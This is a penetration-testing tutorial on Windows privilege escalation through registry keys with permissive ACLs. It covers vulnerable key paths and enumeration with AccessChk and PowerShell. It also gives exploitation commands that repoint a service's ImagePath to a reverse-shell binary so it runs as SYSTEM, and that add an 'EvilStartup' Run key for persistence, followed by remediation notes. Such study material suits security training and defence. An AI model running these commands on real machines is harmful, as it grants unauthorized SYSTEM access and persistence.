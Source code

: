 # Permissive Registry ACLs

Windows Registry keys often control critical system behavior, including the execution of services, DLL loading, autoruns, and more. If these registry keys have **misconfigured ACLs (Access Control Lists)**, a low-privileged user may modify them to execute arbitrary code, escalate privileges, or establish persistence.
## What Are Permissive ACLs?

Registry ACLs define who can read, write, or take ownership of a registry key. If an unprivileged user has **write or full control** over a key associated with a high-privileged process, this is a serious misconfiguration.
## Common Vulnerable Registry Paths

- **Service paths** (alternative to weak service binary path):

```
HKLM\SYSTEM\CurrentControlSet\Services\<ServiceName>
```

- **Image File Execution Options (IFEO):**
   
```
HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<binary>.exe
```

- **App Paths:**

```
HKLM\Software\Microsoft\Windows\CurrentVersion\App Paths\<binary>.exe
```

- **Run/RunOnce Autorun Keys:**

```
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
```

- **CLSID Hijacking:**
   
```
HKCR\CLSID\{CLSID}\InprocServer32
```
## Enumeration
### Using AccessChk (Sysinternals)

```cmd
accesschk64.exe -accepteula -uvqk "HKLM\System\CurrentControlSet\Services"
```

You can also recursively scan an entire hive:

```cmd
accesschk64.exe -accepteula -uvqk "HKLM" > reg_acls.txt
```

Look for keys with:

```
RW BUILTIN\Users
RW Everyone
```
### Using PowerShell

```powershell
Get-Acl -Path "HKLM:\System\CurrentControlSet\Services\<ServiceName>" | Format-List
```

You can automate discovery using PowerUp or other post-exploitation tools like:

```powershell
Invoke-AllChecks
```
## Exploitation Example

If you have write access to a service registry key:

### Modify `ImagePath` to point to your payload:

```powershell
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Services\VulnService" -Name ImagePath -Value "C:\Temp\rev.exe"
```

Then **restart the service**:

```powershell
sc stop VulnService
sc start VulnService
```

Your payload will now run as `SYSTEM`.

## Persistence via Registry Key Hijack

You can also abuse autorun keys or App Paths:

```powershell
Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "EvilStartup" -Value "C:\Users\Public\rev.exe"
```
## Remediation (Defense Notes)

- Use `REGACL`, `Sysinternals AccessChk`, or auditing GPOs to regularly verify permissions.    
- Lock down critical keys (especially service keys and autorun entries).
- Enable registry auditing via Group Policy.    
- Never grant `Users` or `Everyone` write access to keys under `HKLM`.
